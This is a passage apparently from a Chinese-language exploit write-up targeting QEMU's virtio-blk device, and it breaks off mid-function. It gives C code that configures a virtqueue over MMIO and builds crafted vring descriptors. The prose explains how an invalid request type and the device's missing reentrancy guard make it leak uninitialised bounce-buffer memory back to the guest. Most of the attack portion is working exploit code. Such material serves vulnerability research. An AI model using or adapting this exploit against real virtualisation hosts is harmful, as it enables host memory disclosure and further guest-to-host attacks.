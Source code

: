 ```c
    queue_used = (struct vring_used *)((uint8_t *)dma_mem + 0x200);

    mmio_write16(&common_cfg->queue_select, 0);
    mmio_write16(&common_cfg->queue_size, VIRTIO_QUEUE_SIZE);
    mmio_write32(&common_cfg->queue_desc_lo, DMA_GPA);
    mmio_write32(&common_cfg->queue_avail_lo, DMA_GPA + 0x100);
    mmio_write32(&common_cfg->queue_used_lo, DMA_GPA + 0x200);
    mmio_write16(&common_cfg->queue_enable, 1);

    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);
```



## 构造vqueue(vring)请求

主要参考：[The Virtqueue Descriptor Table](https://docs.oasis-open.org/virtio/virtio/v1.1/cs01/virtio-v1.1-cs01.html#x1-320005)

qemu实现参考：

* [test_basic](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/virtio-blk-test.c#L117)
* [virtio_blk_request](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/virtio-blk-test.c#L85)
* [qvirtqueue_add](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L322)
* [qvirtqueue_kick](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L368)

由于`VIRTIO_BLK_GPA`为mmio地址，故virtio-blk处理req请求时将为`VIRTIO_BLK_GPA`申请`bounce.buffer`。由于设置了`VRING_DESC_F_WRITE`标志，故不会对`bounce.buffer`进行初始化，且`access_len = 0xfff`。

设置错误的`req->type = 0xff`，直接调用`virtio_blk_req_complete`，由于virtio-blk设备并无重入防护（vring处理过程中不能再次访问mmio内存），故unmap时可以把`bounce.buffer`中未初始化的内容写回`VIRTIO_BLK_GPA`内存。

此时再从`VIRTIO_BLK_GPA`映射的内存读即`bounce.buffer`中未初始化的内容。

```c
#define mb() {__asm__ volatile("mfence":::"memory");}
void init_vring() {
    QVirtioBlkReq *req = (QVirtioBlkReq *)dma_data;
    req->type = 0xff; // invalid type
    req->ioprio = 1;
    req->sector = 0;

    queue_desc[0].addr = (uint64_t)req;
    queue_desc[0].len = 0x10;
    queue_desc[0].flags = VRING_DESC_F_NEXT;
    queue_desc[0].next = 1;

    queue_desc[1].addr = VIRTIO_BLK_GPA;
    queue_desc[1].len = 0xfff;
    queue_desc[1].flags = VRING_DESC_F_NEXT|VRING_DESC_F_WRITE;
    queue_desc[1].next = 2;

    queue_desc[2].addr = (uint64_t)dma_data + 0x1000;
    queue_desc[2].len = 1;
    queue_desc[2].flags = VRING_DESC_F_WRITE;
    queue_desc[2].next = 0;

    queue_avail->ring[0] = 0;
    queue_avail->idx = 1;
    queue_avail->flags = VRING_AVAIL_F_NO_INTERRUPT;
    mb();
```